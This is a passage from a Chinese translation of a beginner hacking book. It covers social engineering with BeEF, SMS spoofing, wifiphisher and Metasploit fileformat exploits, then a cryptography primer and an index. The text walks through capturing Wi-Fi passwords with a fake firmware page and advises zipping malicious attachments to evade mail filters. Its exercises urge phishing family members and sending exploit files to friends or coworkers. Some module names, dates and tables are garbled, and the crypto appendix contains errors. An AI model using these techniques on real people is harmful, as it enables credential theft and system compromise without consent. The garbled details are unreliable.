| 发送语音短信 | | | | | | | | | |
| 调试 (9) | | | | | | | | | |


在下方，我们可以看到一些命令是红色的，这意味着它们在此浏览器上无法使用。

摄像头命令在此浏览器上显示为绿色。该命令会弹出一个对话框，询问用户是否启用摄像头。如果他们点击“是”，其摄像头将被启用并开始拍摄快照。你可以替换此消息并在对话框中自定义一条新消息（“立即更新您的 Adobe Flash！”），这将很可能诱导用户点击。

BeEF 是欺骗目标并控制其浏览器的绝佳工具。

### 短信欺骗

在过去十年中，短信通讯增长得如此迅猛，以至于有些人很少再打电话了。这种通常被称为“发短信”的技术，非常容易被欺骗。

如果你需要某人在手机上打开一个链接或采取某些行动，这可能是一种极佳的方式。几年前，有许多短信欺骗服务，但其中许多已逐渐被遗忘。在这场混乱中，Spoofbox (`www.spoofbox.com`) 依然保持强劲。


这是一项宣传与实际相符且相对便宜的服务（并非免费，但他们接受比特币支付）。我曾在社会工程学实战中使用过此工具，我可以对它发誓。它有效！

你只需要开设一个账户并存入一些资金。然后输入短信发送的目标号码、希望显示的发件号码，以及要发送给目标的信息。


你们中有些《疑犯追踪》（`Mr. Robot`）的粉丝会记得，`f/society`小组通过向护送`Elliot`离开的那位女士发送一条短信，使他摆脱了石山（`Stone Mountain`）的困境。那条短信看似来自她的丈夫，称他已被送入医院。该服务完全可以做到这一点！

除了短信欺骗，`SpoofBox`还提供以下服务：

1. 电子邮件欺骗
2. 电话欺骗
3. 伪造`WhatsApp`
4. 伪造`iMessage`

请自行判断风险使用这些服务，因为我未尝试过这些其他服务，无法保证其有效性或安全性。

```bash
root@kali:~# apt install wifiphisher
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following additional packages will be installed:
  hostapd python-pbkdf2 python-pyrcl python-roguehostapd
Suggested packages:
  python-pyrcl-doc
The following NEW packages will be installed:
  hostapd python-pbkdf2 kali kali-rolling python-roguehostapd wifiphisher
0 upgraded, 5 newly installed, 0 to remove and 970 not upgraded.
Need to get 5,391 kB of archives.
After this operation, 13.0 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://kali.download/kali kali-rolling/main amd64 hostapd amd64 2:2.9-3 [812 kB]
Get:2 http://kali.download/kali kali-rolling/main amd64 python-pbkdf2 all 1.3+git20110613.git2a0afb15-d50-3 [7,398 B]
Get:3 http://kali.download/kali kali-rolling/main amd64 python-pyrcl all 0.1.6-0kali1 [308 kB]
Get:4 http://kali.download/kali kali-rolling/main amd64 python-roguehostapd amd64 1.2.3-0kali2 [402 kB]
Get:5 http://kali.download/kali kali-rolling/main amd64 wifiphisher all 1.4+git20180525-0kali2 [3,062 kB]
Fetched 5,391 kB in 2s (2,387 kB/s)
Selecting previously unselected package hostapd.
(Reading database ... 375058 files and directories currently installed.)
Preparing to unpack .../hostapd_2%3a2.9-3_amd64.deb ...
Unpacking hostapd (2:2.9-3) ...
Selecting previously unselected package python-pbkdf2.
Preparing to unpack .../python-pbkdf2_1.3+git20110613.git2a0afb15-d50-3_all.deb ...
```

## Wi-Fi 钓鱼

当许多黑客致力于破解`WPA2`哈希值时，有些人发现直接从目标那里社会工程学获取密码更为有效。`wifiphisher`就是为此而设计的。该工具旨在：

1. 创建目标`AP`（接入点）的克隆；
2. 将用户从其真实的`AP`去认证；
3. 将他们关联到虚假的`AP`；
4. 向用户展示一个逼真的固件更新屏幕，并要求他们提供密码以继续。

你和我可能不会如此轻易地交出密码，但根据我的经验，大多数其他人会。

`Wifiphisher`未内置于`Kali`中，因此你需要从`Kali`软件仓库下载并安装它。

```bash
kali > apt install wifiphisher
```

一旦`wifiphisher`完成下载和安装，让我们看看它的帮助屏幕。

```bash
kali > wifiphisher -help
```

### wifiphisher 工具的使用与 Metasploit 社会工程

```bash
root@kali-2019:~# wifiphisher --help
usage: wifiphisher  [-h] [-eI EXTENSIONSINTERFACE] [-aI APINTERFACE]
                    [-iI INTERNETINTERFACE] [-nE] [-nD] [-e ESSID] [-dE]
                    [-p PHISHINGSCENARIO] [-pK PRESHAREDKEY]
                    [-hC HANDSHAKE_CAPTURE] [-cQ] [-lC] [-lE LURE10_EXPLOIT]
                    [-lAM MAC_AP_INTERFACE] [-lEM MAC_EXTENSIONS_INTERFACE]
                    [-lNM] [-logging] [-payload-path PAYLOAD_PATH] [-cM]
                    [-wP] [-wAI WPSBC_ASSOC_INTERFACE] [-kB] [-fH]

optional arguments:
  -h, --help            show this help message and exit
  -eI EXTENSIONSINTERFACE, --extensionsInterface EXTENSIONSINTERFACE
                        Manually choose an interface that supports monitor
                        mode for deauthenticating the victims. Example: -eI wlan1
  -aI APINTERFACE, --apInterface APINTERFACE
                        Manually choose an interface that supports AP mode for
                        spawning an AP. Example: -aI wlan0
  -iI INTERNETINTERFACE, --internetInterface INTERNETINTERFACE
                        Choose an interface that is connected on the
                        Internet. Example: -iI ppp0
  -nE, --noextensions    Do not load any extensions.
  -nD, --nodeauth       Skip the deauthentication phase.
  -e ESSID, --essid ESSID
                        Enter the ESSID of the rogue Access Point. This option
                        will skip Access Point selection phase. Example:
                        --essid 'Free WiFi'
  -dE, --deauth-essid   Deauth all the BSSIDs having same ESSID from AP
                        selection or the ESSID given by -e option
```

虽然选项众多，但`wifiphisher`带有一个自动化脚本。如果你拥有一块支持`AP`模式的无线网卡（我使用的是`Alfa AWUS036NH`，当然其他兼容的网卡也可以），它可以自动设置一个伪`AP`。


要启动 `wifiphisher`，你只需输入：`kali > wifiphisher`。`Wifiphisher` 会将你的无线网卡配置为带有 DHCP 服务的 AP。随后它会扫描可用的 AP，输出如下图所示。

### 文件编辑 查看 搜索 终端 帮助

选项： [Esc] 退出 [上箭头] 上移 [下箭头] 下移

| ESSID | BSSID | CH | PWR | ENCR | CLIENTS | VENDOR |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| TPvT | 21:0... | 1 | 0% | WPA2 | 2 | Unknown |
| MOTO | 58:56... | 1 | 0% | WPA2 | 4 | Aravis Group |
| xfin | 82:f2... | 1 | 0% | OPEN | 0 | Unknown |
| Spro | 94:10... | 2 | 0% | WPA2 | 3 | Belkin International |
| xfin | 92:ad... | 6 | 0% | OPEN | 0 | Unknown |
| TPvT | 24:05... | 6 | 0% | WPA2 | 1 | Unknown |
| HOME | 88:ad... | 6 | 0% | WEP | 0 | Pegatron |
| MOTO | e8:91... | 6 | 0% | WPA2 | 0 | Motorola Mobility, a Lenovo |
| Ccent | bc:99... | 6 | 0% | WPA2 | 0 | Unknown |
| NETG | 3c:37... | 7 | 0% | WPA2 | 4 | Unknown |
| Mand | b0:bc... | 11 | 0% | WPA2 | 3 | Unknown |
| HP-P | 88:5... | 11 | 0% | WPA2 | 0 | Hewlett Packard |
| Test | 4a:a3... | 11 | 0% | WPA2 | 0 | Unknown |
| Cent | 10:13... | 11 | 0% | WPA2 | 3 | Technicolor |
| NTGR | 9c:3d... | 11 | 0% | WPA2 | 0 | Netgear |
| Cent | a6:a3... | 11 | 0% | WPA2 | 3 | Actiontec Electronics |
| TPvT | 38:8b... | 11 | 0% | WPA2 | 0 | Unknown |
| clic | avirus | 00:78... | 11 | 0% | WPA2 | 0 | Ignition Design Labs |
| Guin | 44:1c... | 11 | 0% | WPA2 | 2 | Unknown |
| LAN! | 78:f2... | 1 | 0% | WPA2 | 0 | Pegatron |
| Cent | 54:83... | 1 | 0% | WPA2 | 0 | Unknown |
| Clickhereforavirus5 | bc:9b... | 1 | 0% | WPA2 | 3 | Unknown |


```
Extensions feed:             | wifiphisher 1.4GIT
DEAUTH/DISAS - 00:02:d1:c:2f:37 | ESSID: click here for a viru
DEAUTH/DISAS - 74:6b:3b:e3:69:3d | Channel: 11
DEAUTH/DISAS - 64:1c:b0:bd:49:23 | AP interface: wlan0
DEAUTH/DISAS - 59:c7:bf:b4:37:f7 | Options: [Esc] Quit

Connected Victims:

HTTP requests:
```

此时，你只需选择要克隆的 AP。在这种情况下，我选择了“click here for a virus5”。

现在 `wifiphisher` 开始对选定 AP 上的用户执行去认证化，即将其断开连接。

当这些用户重新连接到该 AP 时，他们会看到如下图所示的界面。该界面会通知用户其硬件正在进行固件升级，并要求输入密码以继续。

多么狡猾的设计啊？


```
HTTP requests:
[+] GET request from 10.0.0.94 for http://clients3.google.com/generate_204
[+] GET request from 10.0.0.94 for http://clients3.google.com/generate_204
[+] POST request from 10.0.0.94 with b'phpshr_email=victim@example.com&phpshr_password=cr1pp1edbl4ckph0enix'
[+] GET request from 10.0.0.94 for http://clients3.google.com/generate_204
[+] GET request from 10.0.0.94 for http://clients3.google.com/generate_204
```

当他们输入密码时，这些凭据就会出现在攻击者的屏幕上，如下所示！

### 使用 Metasploit 进行社会工程

除了上述技术外，`Metasploit` 中还有许多模块可用于通过电子邮件发送恶意链接和文档。打开 `Metasploit` 控制台 `msfconsole` 并搜索“fileformat”类漏洞。这种类型的漏洞通常涉及各种应用程序中的缺陷，如 MS Word、Adobe PDF、OpenOffice 等。`Metasploit` 中大约包含 200 个此类模块。

```
msf5> search type:exploit fileformat
```


# Matching Modules

```
msf5 > search type:exploit file:format
Matching Modules

#       Name                                        Disclosure Date     Rank    Check  Description
 0       exploit/android/fileformat/adbre_reade...  2014-04-13          good    No     Adobe Reader for Android addjavacript:Interface Exploit
 1       exploit/multi/fileformat/acrobat_doc_content_               2009-10-13          good    No     Adobe CPD c1GIDExpression\sDescription Array Overrun
 2       exploit/multi/fileformat/eclipse_cdt_cmd_injection_          2015-07-13          excellent No    Eclipse CDT File Command Injection
 3       exploit/multi/fileformat/ghostscript_filerestriction_       2018-04-21          excellent No    Ghostscript Filer Restriction Command Execution
 4       exploit/multi/fileformat/js_uploader_eval_injection_        2015-02-18          excellent No    Javascript Injection for Eval-based Uploaders
 5       exploit/multi/fileformat/libreoffice_macro_exec_            2018-02-25          normal  No    LibreOffice Macro Code Execution
 6       exploit/multi/fileformat/mapple_macro_                      2010-04-26          excellent No    Maple Maple File Creation and Command Execution
 7       exploit/multi/fileformat/maloffice_load_code_exec_          2018-08-14          excellent No    Maloffic JS::run (load?) Code Execution
 8       exploit/multi/fileformat/msoft_word_macro_                  2012-01-18          excellent No    Microsoft Office Word Malicious Macro Execution
 9       exploit/multi/fileformat/peasyj_php_confusion_              2009-04-05          excellent No    PeasyJ PHP Processing Command Injection
10       exploit/multi/fileformat/supergap_param_inject_             2016-05-23          excellent No    JDN Supergap Codec Parameter Macro Injection
11       exploit/multi/fileformat/ghostscript_type_confusion_        2017-04-27          excellent No    Ghostscript Type Confusion Arbitrary Command Execution
12       exploit/multi/fileformat/imagick_exploit_delegate_          2016-03-03          excellent No    ImageMagick Delegate Arbitrary Command Execution
13       exploit/multi/fileformat/xpdf_macro_                        2015-06-30          normal  No    Adobe Reader 9.2 XPL and Macro Execution
14       exploit/windows/fileformat/del_webcam_crazytalk_            2012-03-31          normal  No    Dell Webcam Crazytalk ActiveX BackStage Vulnerability
15       exploit/windows/fileformat/iexp_aox_13_488_                 2018-03-12          normal  No    A-UP Way to Way 2.0 I-Buffer Overflow
16       exploit/windows/fileformat/aibs_smp_msi_                     2013-09-30          normal  No    AIBS Audio Media Player LST Buffer Overflow
17       exploit/windows/fileformat/aktoslate_string_                 2013-08-32          good    No     Adobe Reader ActionScript FXP File ID Parameter Overflow
18       exploit/windows/fileformat/acxex_xpm_                        2007-11-23          good    No     ACXEx XPM File Section Buffer Overflow
19       exploit/windows/fileformat/actives_port_users_buf_           2008-09-28          normal  No     Actives Factory AIF Client Importer Buffer Overflow
20       exploit/windows/fileformat/activex_webgraber_               2008-08-26          low     No      ACTIVEP Webgraber ActiveX Control Buffer Overflow
21       exploit/windows/fileformat/adbe_cooltype_                     2008-09-29          low     No      Adobe CoolType CollectCoolType() Buffer Overflow
22       exploit/windows/fileformat/adbe_cooltype_sing_               2010-09-07          great   No     Adobe CoolType SING Table \"winevior\" Stack Buffer Overflow
23       exploit/windows/fileformat/adbe_flashplayer_buf_             2018-07-23          normal  No     Adobe Flash Player "Bitmap" Remote Code Execution
24       exploit/windows/fileformat/adbe_flashplayer_numfunction_     2018-08-24          normal  No     Adobe Flash Player "numfunction" Invalid Pointer Use
25       exploit/windows/fileformat/adobe_filedecode_predictor2_      2009-10-16          good    No     Adobe Filedecode Stream Predictor 02 Filter Integer Overflow
```


许多这些漏洞利用针对的是已被开发者修补的缺陷，但并非所有用户都会及时更新软件。

这些漏洞涉及不同类型的文件——一旦文件被打开，攻击者就可能获得对系统的控制权（例如针对乌克兰电网的 `BlackEnergy3` 攻击正是由此类漏洞发起）。

你还可以使用 `shikata_ga_nai` 加密技术创建自定义 payload 并将其发送给受害者。如果你能诱使他们打开该文件，你的 payload 就会在其系统上执行，从而控制该系统。这种攻击中最困难的部分在于诱导环节。这很可能涉及前述概念中的（1）引诱、（2）预谋或（3）影响。

使用 `Metasploit` 进行社会工程时，请记住以下几点。首先，确保电子邮件听起来具有说服力且合法。其次，如果不知道目标使用什么应用程序，请选择常见的文件格式。第三，尝试压缩你的附件。大多数邮件服务不会直接传输可执行文件，并可能将 `fileformat` 类附件标记为恶意文件。通过使用 ZIP 压缩格式，你可以绕过其中一些限制。

## 摘要

社会工程学往往是初级黑客最忽视的技术，但历史上一些最复杂黑客（如美国国家安全局、俄罗斯总参谋部情报总局等）实施的一些最重要的攻击，其成功往往源于有效的社会工程学。社会工程学要求攻击者研究目标，理解其兴趣、需求和欲望，从而准备一种有效的接近方式。这种研究和观察通常涉及开源情报，并将其与一定的心理学知识相结合。即使是安全级别最高的组织也容易受到社会工程学攻击的影响。

## 练习

- 1. 尝试练习让朋友做你想让他们做的事。尝试使用以下每种概念：(1) 套话（elicitation）、(2) 借口（pretexting）或 (3) 影响。尝试不同的话术，看看哪种效果最好。
- 2. 在你家中设置 `Wifiphisher`，看看你是否能用 `Netgear` 固件更新骗过家庭成员、室友或朋友。
- 3. 使用 `Metasploit` 创建文件格式漏洞利用程序，并尝试将其发送给一位朋友或同事。
- 4. 访问 `SMS Spoof`，尝试用朋友的手机号给自己发送一条伪造的短信。

# 结语

恭喜你读完了这本书！你正在成为顶级黑客的道路上迈出坚实的一步，并将开始在网络安全领域开启一份高薪且富有成就感的职业生涯。

接下来的步骤至关重要。你可能会决定成为 `Hacker-Arise` 网站的订阅者（500美元享受三年的课程，网址：`www.hackers-arise.com/hackers-arise-subscribers`），以便跟随我继续深入学习，或者加入众多网络安全学校之一。如果你没有成为 `Hacker-Arise` 的订阅者，我可以推荐以下培训课程：

1. `SANS` 研究所
2. 进攻安全（`Offensive Security`）
3. 信息安全研究所（`InfoSec Institute`）

此外，请关注我即将出版的新书：

1. 《黑客的 `Metasploit` 基础》 - 2020
2. 《黑客的 `Shodan` 基础》 - 2020
3. 《黑客的 Linux 进阶基础》 - 2021
4. 《黑客的 Python 基础》 - 2022
5. 《成为顶级黑客 2》 - 2023
6. 《成为顶级黑客 3》 – 2024
7. 《黑客与网络安全史》 - 待定

祝我这些有志成为顶级黑客的学员们好运！

## 附录 A

### 黑客密码学基础

作为黑客，我们经常面临密码学和加密技术的障碍。每一位值钱的网络安全工程师都知道，加密使黑客/攻击者的任务变得更加困难。在某些情况下，隐藏行动和信息对黑客可能也是有用的。

许多应用程序和协议使用加密来维护数据的机密性和完整性。为了能够破解密码以及 SSL、无线等加密协议，你至少需要对密码学和加密的概念和术语有基本的了解。

对于许多新手黑客来说，密码学的概念和术语可能有点令人望而生畏且晦涩难懂。`首先，密码学是隐藏信息以保持其机密性的科学和艺术`，然后“解除隐藏”，使得只有预期的接收者才能阅读它们。基本上，我们可以说密码学是秘密信息传递的科学。

通过这份面向新手的简要概述，我希望能够揭开笼罩在这个主题上的迷雾，为密码学带来一丝光亮。我的意图仅是为初级黑客提供一份关于密码学的快速且粗略的综述，而不是一篇关于加密算法和数学的专著。我将努力让你熟悉基本术语和概念，以便当你阅读有关哈希、无线破解、密码破解以及提到加密技术的文章时，能够对正在讨论的内容有一定的把握。

别误会，我并不是打算在这里把你培养成密码学家（那需要多年时间），而仅仅是帮助初学者熟悉密码学的术语和概念，从而帮助你成为一名可信的黑客。

我会尽量使用通俗的英语来描述这些技术，但就像 IT 领域的一切一样，密码学和加密有着非常专业的语言。诸如密文（cipher）、明文（plaintext）、密文（ciphertext）、密钥空间（keyspace）、块大小（block size）和碰撞（collisions）等术语可能会让初学者在学习密码学时感到有些困惑和不知所措。我会使用“碰撞”（collision）这个术语，因为在通俗英语中确实没有其他词可以替代它。

让我们通过把加密分为几个类别来开始。

**密码学类型** 有几种对加密进行分类的方法，但就我们此处的目的而言，我将其分为四个主要领域（我相信密码学家会不同意这种分类体系，但那就这样吧）。

- 对称加密
- 非对称加密
- 哈希
- 无线


**关于密钥大小的一句话** 在密码学世界中，大小确实很重要！一般来说，密钥越大，加密的安全性越高。这意味着使用 256 位密钥的 `AES` 比使用 128 位密钥的 `AES` 更强，破解起来可能也更困难。在同一个加密算法中，密钥越大，加密越强。

这并不意味着在不同加密算法之间，较大的密钥就意味着更强的加密。在算法之间，加密的强度取决于算法的具体细节**以及**密钥的大小。

#### 对称密码学

对称密码学是指发送方和接收方使用相同的密钥。这是最常见的密码学形式。你有一个用于加密消息的密码或“密钥”，而我拥有相同的密码来解密该消息。其他人无法阅读我们的消息或数据。

对称密码学速度非常快，因此非常适合批量存储或流媒体应用。对称密码学的缺点被称为密钥交换。如果两端需要相同的密钥，它们就需要使用第三通道来交换密钥，弱点就在此处。如果有两个人想要加密他们的通信，而他们相隔 12,000 英里，他们如何交换密钥？这种密钥交换面临着他们所选介质（无论是电话、邮件、电子邮件、面对面等）机密性的所有问题。密钥交换可能被截获，从而使加密的机密性变得毫无意义。

以下是一些你应该熟悉的常见对称算法：

- **`DES`** - 这是由 IBM 开发的原始且最古老的加密方案之一。后来发现其存在缺陷且可被破解，并用于早期（2000 年之前）Windows 系统中原始的 LANMAN 哈希系统。
- **`3DES`** - 这种加密算法是针对 `DES` 的缺陷而开发的。`3DES` 应用 `DES` 算法三次（因此得名“三重 DES”），使其比 `DES` 稍微安全一些。
- **`AES`** - 高级加密标准（Advanced Encryption Standard）并不是一种加密算法，而是由美国国家标准与技术研究院（NIST）制定的一项标准。目前，它被认为是最强的加密，使用 128、196 或 256 位密钥，自 2001 年起由 `Rijndael` 算法占据。它广泛用于 WPA2、SSL/TLS 以及许多其他对机密性和速度重要的协议中。
- **`RC4`** - 这是一种流密码（它加密每个位或字节，而不是一组信息块），由 RSA 著名的 Ronald Rivest 开发。用于 VoIP 和 WEP。
- **`Blowfish`** - 这是 Bruce Schneier 的加密算法中的第一个。它使用可变密钥长度，非常安全。它没有专利，因此任何人都无需授权即可使用。
- **`Twofish`** - 这是 `Blowfish` 的加强版本，使用 128 或 256 位密钥，曾是 `AES` 的有力竞争者。它被用于 Cryptcat 和 OpenPGP 等其他地方。它也是公共领域的，没有专利。

#### 非对称密码学

非对称密码学在通信通道的两端使用不同的密钥。非对称密码学是...

速度非常慢，比对称加密慢约1000倍，因此我们不想使用它进行批量加密或流式通信。然而，它确实解决了密钥交换问题。由于我们无需在通信的两端拥有相同的密钥，因此不存在密钥交换的问题。

非对称加密主要用于两个互不相识的实体需要交换**少量**信息的情况，例如密钥或其他标识信息，如证书。由于其速度限制，它不用于批量或流式加密。

你应该熟悉的一些常见非对称加密方案包括：

- **`Diffie-Hellman`** - 加密领域的许多人认为 `Diffie-Hellman` 密钥交换是密码学领域最伟大的发展（我也同意这一观点）。不深入探讨数学细节，Diffie 和 Hellman 开发了一种无需交换密钥即可生成密钥的方法，从而解决了困扰对称密钥加密的密钥交换问题。
- **`RSA`** - Rivest、Shamir 和 Adleman 发明的一种非对称加密方案，利用非常大的素数分解作为两个密钥之间的关系。
- **`PKI`** - 公钥基础设施是一种广泛使用的非对称系统，用于使用私钥和公钥交换机密信息。


## ECC
`ECC` - 椭圆曲线密码学在移动计算中越来越受欢迎，因为它效率较高，在相同的安全级别下需要更少的计算能力和能源消耗。`ECC` 依赖于两个函数位于同一条椭圆曲线上的共享关系。

## PGP
`PGP` - 良好隐私协议（Pretty Good Privacy）使用非对称加密来确保电子邮件消息的隐私性和完整性。

## 哈希

哈希是单向加密。消息或密码被加密后无法逆转或解密。你可能会问：“如果我们把某些东西加密了，然后却无法解密它，这对我们有什么好处？” 好问题！

当消息被加密时，会产生一个“哈希”，成为底层消息的唯一但不可解密的签名。每条消息都以产生唯一哈希的方式加密。

通常，这些哈希具有固定长度（`MD5` 哈希始终是 32 个字符）。这样，攻击者无法从哈希长度中破译出关于底层消息的任何信息。由于这一点，我们不需要知道原始消息，只需查看某些文本是否产生相同的哈希值即可检查其完整性（是否未更改）。

这就是为什么哈希可用于存储密码。密码以哈希形式存储，当某人尝试登录时，系统会对密码进行哈希处理，并检查生成的哈希值是否与存储的哈希值匹配。此外，哈希对于完整性检查也非常有用，例如在文件下载或系统文件中。

在加密和哈希领域，“碰撞”是指两个不同的输入文本产生相同的哈希值。换句话说，哈希值不唯一。当我们假设所有哈希值都是唯一的时（例如 `SSL` 中的证书交换），这可能成为一个问题。`NSA` 在 `Stuxnet` 恶意软件中利用了碰撞的这一特性，使其看起来拥有合法的 `Microsoft` 证书。正如你可能猜到的那样，会产生碰撞的哈希算法存在缺陷且不安全。

以下是你应该熟悉的哈希值。

- `MD4` - 这是 `Ron Rivest` 早期设计的哈希算法，由于存在碰撞问题，已 largely 停止使用。
- `MD5` - 使用最广泛的哈希系统。它是 128 位的，生成 32 个字符的消息摘要。
- `SHA1` - 由 `NSA` 开发，比 `MD5` 更安全，但使用不如 `MD5` 广泛。它有一个 160 位的摘要，通常以 40 个十六进制字符表示。常用于 `SSL` 中的证书交换，但由于最近发现的缺陷，正逐渐被弃用。

## 无线加密

无线加密很受欢迎，因为许多人都试图破解无线接入点。正如你可能猜到的那样，无线加密是对称的（为了速度），与所有对称加密一样，密钥交换至关重要。

- `WEP` - 这是无线原始加密方案，很快就被发现有缺陷。它使用 `RC4`，但由于密钥长度小（24 位），它在大约每 5,000 个数据包中重复使用 `IV`，使得在繁忙网络上使用统计攻击很容易破解。
- `WPA` - 这是针对 `WEP` 缺陷的快速修复，增加了更大的密钥和 `TKIP`，使其稍难破解。
- `WPA2-PSK` - 这是更安全的无线加密方案之一。它使用预共享密钥（`PSK`）和 `AES`。然后用 `AP` 名称或 `SSID` 对哈希进行加盐。哈希值在认证时通过客户端和 `AP` 之间的四路握手进行交换。
- `WPA2-Enterprise` - 这种无线加密是最安全的。它使用 128 位密钥、`AES` 和远程认证服务器（`RADIUS`）。

# 附录 B

# 武术大师 OTW 的网络战士智慧

黑客攻击是 21 世纪的新武术！要成为大师级黑客，你必须具备战略性和分析性的思维。大师 `OTW` 为新手黑客提供了一些战略智慧，这是每个黑客在战斗前都应具备的。

1. 愚者多言，智者善听。
2. 黑客攻击是一个过程；而不是技术或工具集。
3. 如果一项服务是免费的，你就不是客户；你是产品。
4. 只有愚者才会在对敌人进行充分的侦察之前就去战斗。
5. 仔细、专注地“倾听”你的敌人；他们会告诉你击败他们需要知道的一切。
6. 如果你什么都不相信，你就可以被引导去相信任何事情。
7. 每一个对手——无论多么强大有力——总有弱点。找到弱点并利用它。
8. 谦逊是一种美德，能增强战士的力量；傲慢是一种邪恶，会削弱战士的力量。
9. 强大的进攻可能赢得战斗，但强大的防御才能赢得战争。
10. 将对手的力量和优势反用于他们身上。
11. 战斗往往不属于最强者，而是属于最坚持不懈的人。
12. 在混乱中总有机会。
13. 避开对手的强项，攻击其弱点。
14. 永远不要变得可预测。
15. 当面对具有压倒性力量和实力的对手时，不要正面迎战。只有在具备出其不意要素时才出击。
16. 理解人类心理学、动机和行为是黑客最重要的工具之一。
17. 一系列持续的小胜利将击败你的对手。
18. 在对手的阵营中制造混乱和分歧。
19. 有时，撤退以引诱对手进入脆弱且无法防守的位置是有利的。
20. 永远不要把仁慈误认为是软弱。

# 索引

# A

主动侦察，vi, 30, 77–78, 86, 98

`AES`，257, 323–24, 326

`Aircrack-ng`，24, 184, 258, 261, 268, 273

`Aireplay-ng`，264–65, 271, 273

`Airodump-ng`，262, 264–65, 267, 277

反病毒软件 (`AV`)，vi, 22, 170, 190, 233–35, 239, 243, 280

`AP` (接入点)，256–58, 260–71, 273–75, 277–79, 316–17, 326

`Apache Tika`，163–64

`Apache webserver`，179–80

`AR` (认证请求)，275

`Assange`，5

`Julian`，5, 12

非对称加密，324

`At0`，269–70

攻击 `WordPress` 网站，222

攻击

暴力破解，25, 30, 120

字典，25–26, 68, 136

认证请求 (`AR`)，275

`Auxiliary/scanner/portscan/tcp`，156

`AV`。参见 反病毒软件

`AV` 应用程序，234–35, 242, 245

`AV` 检测，233–34

`AV` 软件，234–35, 243

# B

`Banner`，26, 30, 60–61, 63–64, 290–91, 296, 298, 304

`Bash`，253, 294

`Bash` 命令历史，246

# 索引

## B

- `BASH` 脚本，274，283
- `Beef`，26，310–13
- `Berkeley` 数据包过滤器 (`BPF`)，179
- `BPF` (`Berkeley` 数据包过滤器)，179
- 浏览器漏洞利用框架，310
- 暴力破解攻击，120，141
- `BSSID`，256，261–62，264–65，273，277
- 缓冲区溢出，31，192，194
- 漏洞赏金挖掘，3
- `BuiltWith`，95–97
- 使用 `BuiltWith` 扫描网站技术，95
- `BurpSuite`，24

## C

- `CERT` (计算机应急响应团队)，9
- `Cewl`，126–28，134，141，266
- `Chmod`，236，285，291–92
- `Cisco` 路由器，60，64–66
- `CMSs` (内容管理系统)，92，94，110，222
- 代码，代码块，289，295，298–99
- 碰撞，322，325
- 命令历史，247，251-53
- 命令行，19，73，110，137，218，248
- 计算机应急响应团队 (`CERT`)，9
- `Conficker` 蠕虫，9，29
- `Connect`，192，197，209，211，255，261-63，268，270-71，274，291，293，296-97，300
- 内容管理系统。*参见 `CMSs`*
- 控制语句，293-94
- 控制结构，293-94
- 版权材料，8，16
- 破解工具，24-26，121，155
- 创建密码破解器，293
- 跨站请求伪造，213-14
- `Crunch`，126，128-31，134，141，266
- 密码学，22，257，322-24
  - 对称加密，323-25

## D

- `DDoS` 攻击，8–9
- `Dead Cow`，6–7
- `Death`，264–65，271，273
- 去认证 (`Deauthenticate`)，315，317
- 死亡帧 (`Death frames`)，265，273–74
- `Debian`，34，38，102
- 拒绝服务，14，78，273
- 数字取证与网络取证，21
- 数字千年版权法 (`DMCA`)，8，16
- `DMCA` (数字千年版权法)，8，16
- `DNS`，19，30，49，66，70，76，177，185
- `Dnsenum`，68–69
- `Dnsenum.pl`，68–69
- `DNS` 信息收集工具，68
- `DNS` 服务器，67–68，70
- 下载并安装 `OWASP-ZSC`，236，245
- 下载 `Kali Linux`，35
- `Dropbox`，191，281

## E

- `Eilicomsoft`，8，16
- 套取信息 (`Elicitation`)，307，319-20
- `Elif`，295
- 编码 (`Encode`)，235-36，242-43，245
- 加密算法，20，323-24
- 最终用户许可协议 (`EULA`)，111


## EternalBlue

- `EternalBlue`，13，29，31，99-101，154，157-59，190-91，233，235，300-301，305
- `EternalBlue` 逐包攻击，196
- `EternalBlue` nmap 漏洞扫描器，100
- `EternalBlue` 漏洞，99-100，108，175，190
- `EternalBlue` 漏洞扫描器，100
- `EternalBlue` 工作原理，190
- `Eth0`，73-74，183，268-69
- 规避 Windows Defender，234
- 邪恶双胞 (Evil Twin)，24，268，271，273
- 邪恶双胞 AP，268-69
- 邪恶双胞攻击，268，279
- 可执行文件格式，169
- 提取密码哈希值，210

## F

- 假阴性，100
- FBI (美国联邦调查局)，6–8，14，177
- 联邦调查局。*参见 FBI*
- 指纹识别 (Fingerprinting)，29，71，85
  - 被动操作系统指纹识别，71
- 防火墙，20，30，77–78，87–88，90，280
- 片段 (Fragments)，72，88，90
- FTP 服务器，296，298–300

## G

- `Git clone https`，131，236，275–76
- Google，3，9，30，49–50，60，76，218，223
- Google dorks，53–54，223–24
- Google 黑客技巧 (Google Hacking)，49–50，54，60，223，309
- Google 黑客技巧 (Google Hacks)，52，76，226
- GPU (图形处理单元)，26，134
- GRUB 引导加载程序，43

## H

- 黑客流程 (Hacker Process)，vi，28
- Hacking Team，12
- 黑客工具，17，23，27，34，281
- 攻击 WordPress 网站，225
- Hammond, Jeremy，11
- 硬件键盘记录器，204
- `Hashcat`，25-26，134-36，138，203，263，266，274-75，278-79
- 哈希值 (Hashes)，25，31，118-20，123-24，136-37，202-3，207，211，263-66，274-75，278，322，325-26
- HBGary，228-29
- Hcxdump 工具，275-78
- 历史记录命令，252-54
- 黑客历史，2，4-6，14，16，206
- 黑客与网络安全历史，321
- `Hping`，30，86-92，97
- `Hping3`，86-87，91

## I

- IDEs，283
- IEEE (电气与电子工程师协会)，256-57，279
- `ifconfig`，80，145，161，163，258，270
- IIS (Internet Information Server)，214
- 信息，横幅信息，26，63，290-91
- 信息安全工程师，4，196
- 安装 Kali，39，41
- 电气与电子工程师协会。*参见 IEEE*
- IP (知识产权)，16，26，64-66，80，84，89，100-101，106，147，161，208
- IP 地址，56-57，64，66，68，80，179，185-86，190，192，196，290-91，297，299-300
- IP 头，72，88
- `Iwlist`，259

## J

- Javascript，242-43
- `John`，25-26，122-25，128，137-38，141
- John 密码哈希值，124
- Jsfuck，242-43

## K

- Kali Linux，27，34-37，44，58，66，141，161，281
- Kali 软件仓库，236，281，310，315
- Metasploit 中的 Kali 系统，173
- 键盘记录器，197，204-5
- Kescan，205-6
- 已知漏洞，25，31，92，99，101，214，226
  - 已知漏洞数据库，26，99

## L

- 合法 AP，271，273
- `LHOST`，147，161，171-73
- Linux 技能，4，19-20
- 监听器 (Listener)，31，144，172-73，295
- 日志文件，32，246-47，254
- 循环 (Loops)，274，289，292，295-97，302-3
- `LPORT`，147，171-73

## M

- MAC 地址，256，260-62，266，268-69
- 恶意载荷，173-74，245
- Medusa，138-40
